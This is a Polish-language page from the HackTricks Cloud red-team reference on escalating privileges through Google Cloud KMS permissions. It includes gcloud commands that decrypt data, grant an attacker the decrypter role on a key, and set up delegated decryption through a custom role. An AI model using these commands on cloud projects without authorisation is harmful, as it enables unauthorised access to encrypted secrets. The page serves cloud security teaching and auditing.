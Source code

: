 # GCP - KMS Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## KMS

Informacje o KMS:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Zauważ, że w KMS **uprawnienia** nie są tylko **dziedziczone** z Organizacji, Folderów i Projektów, ale także z **Keyrings**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Możesz użyć tego uprawnienia do **deszyfrowania informacji za pomocą klucza**, nad którym masz to uprawnienie.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Napastnik z tym uprawnieniem mógłby **przyznać sobie uprawnienia** do używania klucza do odszyfrowania informacji.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Oto koncepcyjne omówienie, jak działa ta delegacja:

1. **Konto usługi A** ma bezpośredni dostęp do deszyfrowania za pomocą konkretnego klucza w KMS.
2. **Konto usługi B** otrzymuje uprawnienie `useToDecryptViaDelegation`. Pozwala to na żądanie KMS deszyfrowania danych w imieniu Konta usługi A.

Użycie tego **uprawnienia jest implicitne w sposobie, w jaki usługa KMS sprawdza uprawnienia** podczas składania żądania deszyfrowania.

Gdy składasz standardowe żądanie deszyfrowania za pomocą interfejsu API Google Cloud KMS (w Pythonie lub innym języku), usługa **sprawdza, czy konto usługi składające żądanie ma niezbędne uprawnienia**. Jeśli żądanie jest składane przez konto usługi z uprawnieniem **`useToDecryptViaDelegation`**, KMS weryfikuje, czy to **konto ma prawo żądać deszyfrowania w imieniu podmiotu, który jest właścicielem klucza**.

#### Ustawienia dla Delegacji

1. **Zdefiniuj niestandardową rolę**: Utwórz plik YAML (np. `custom_role.yaml`), który definiuje niestandardową rolę. Plik ten powinien zawierać uprawnienie `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`. Oto przykład, jak może wyglądać ten plik:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Utwórz niestandardową rolę za pomocą gcloud CLI**: Użyj następującego polecenia, aby utworzyć niestandardową rolę w swoim projekcie Google Cloud:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Zastąp `[YOUR_PROJECT_ID]` identyfikatorem swojego projektu Google Cloud.

3. **Przyznaj niestandardową rolę kontu usługi**: Przypisz swoją niestandardową rolę do konta usługi, które będzie korzystać z tego uprawnienia. Użyj następującego polecenia:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Zamień `[YOUR_PROJECT_ID]` i `[SERVICE_ACCOUNT_EMAIL]` na identyfikator swojego projektu i adres e-mail konta usługi, odpowiednio.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
